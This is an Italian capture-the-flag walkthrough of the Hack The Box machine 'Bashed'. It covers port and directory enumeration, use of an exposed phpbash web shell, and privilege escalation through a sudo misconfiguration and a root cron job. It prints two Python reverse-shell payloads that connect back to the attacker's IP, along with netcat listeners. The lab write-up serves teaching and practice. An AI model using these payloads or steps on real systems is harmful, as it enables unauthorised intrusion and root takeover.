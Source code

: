**TARGET: 10.10.10.68**

# INFORMATION GATHERING #

Iniziamo con un scan base di nmap

```bash
┌──(rot㉿kali)-[/home/kali]
└─# [[Nmap]] -sC -sV -p- 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 09:19 EDT
Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 21.60% done; ETC: 09:19 (0:00:36 remaining)
Nmap scan report for 10.10.10.68
Host is up (0.046s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.76 seconds
```
# ENUMERATION

Analizzando la pagina vediamo che il sito è in php e sembra rimandare a questa pagina github:
https://github.com/Arrexel/phpbash

Proviamo a trovare altre path del sito tramite [[Gobuster]]:
```Bash 

┌──(root㉿kali)-[/home/kali]
└─# gobuster dir -u http://10.10.10.68 -t 10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/05/05 09:29:29 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
Progress: 2172 / 81644 (2.66%)^Z
zsh: suspended  gobuster dir -u http://10.10.10.68 -t 10 -w 
```

Nella path /dev/troviamo phpbash.php che semmbre essere una shell in php 

# EXPLOITATION


Scopriamo che siamo utenti www-data e che il sistema operativo è 
Linux bashed 4.4.0-62-generic 83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

Ci mettiamo in ascolto con nc sulla porta 4444
```
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...nc -nvlp 4444
```

Sulla macchina target vediamo se è installato pyhton
which python

utilizziamo questa stringa per ottenere sun revshell

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.27",4444));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1); 
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'

>mettiamo il nostro ip e la porta sulla quale siamo in ascolto 

Otteniamo cosi una shell

```bash

┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 4444               
listening on [any] 4444 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 35064
/bin/sh: 0: can't access tty; job control turned off
$ ls      
html
$ 
```

Ci muoviamo fino alle /home e otteiamo la flag

# PRIVESC 

Vediamo con sudo -l se possiamo eseguire qualcosa con privilegi da root

```bash 
www-data@bashed:/home/arrexel$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/home/arrexel$ 
```

Dalla ultima stringa possiamo vedere che come utente www-data possiamo eseguire programmi come utente scriptmanager senza password.
Enumerando ulteriormente possiamo vedere che tutte le cartelle sono di proprietà root tranne la directory script che è di proprietà di scriptmanger

```bash

www-data@bashed:/$ ls -la
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 May  5 06:18 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 173 root          root              0 May  5 06:18 proc
drwx------   3 root          root           4096 Jun  2  2022 root
drwxr-xr-x  18 root          root            520 May  5 06:25 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 May  5 06:18 sys
drwxrwxrwt  10 root          root           4096 May  5 07:02 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
www-data@bashed:/$ cd scripts/
bash: cd: scripts/: Permission denied
www-data@bashed:/$ ls
```

con il comando seguente cambiamo utente in scriptmanager

```bash
www-data@bashed:/$ sudo -i -u scriptmanager
scriptmanager@bashed:~$ 
```

Nella cartella script troviamo due file 

```
scriptmanager@bashed:/scripts$ ls
test.py  test.txt
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```

È un semplice programma Python che scrive nel file test.txt.
Tuttavia, abbiamo visto nell'immagine precedente che test.txt è in esecuzione come root! Anche l'esecuzione del programma python sembra essere pianificata poiché l'ora dell'ultimo accesso al file test.txt è molto recente.
In effetti, lo script sembra essere eseguito ogni minuto!
Probabilmente è un cron job di proprietà di root.
Perché questa è una grande notizia per noi in quanto se cambio il contenuto nel file test.py per inviare una shell inversa, quella shell inversa verrà eseguita come root!


Prima cosa mi metto in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -nvlp 5555
listening on [any] 5555 ...
```

modifico con nano il file .py con la shell inversa in python che segue:

import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((“10.10.14.30”,5555)) 
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);

Ottenaimo cosi un shell da root

```bash
┌──(rot㉿kali)-[/home/kali]
└─# nc -nvlp 5555    
listening on [any] 5555 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.68] 42068
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# LESSON LEARN

1. Lo sviluppatore non avrebbe dovuto disporre di una web shell che consentisse pubblicamente l'accesso al suo sistema.
2. Una configurazione errata delle autorizzazioni può portare a conseguenze disastrose. Perché l'utente daemon web (www-data) è stato autorizzato a diventare un utente più privilegiato (scriptmanager)? Allo stesso modo, perché uno script creato da un utente non root (test.py) è stato eseguito come root? Questi sono noti come errori di configurazione della sicurezza. 
3. Lo sviluppatore non deve disporre di directory sensibili pubblicamente accessibili disponibili sul proprio server, in quanto come dimostrato è stata facilmente trovata da gobuster.
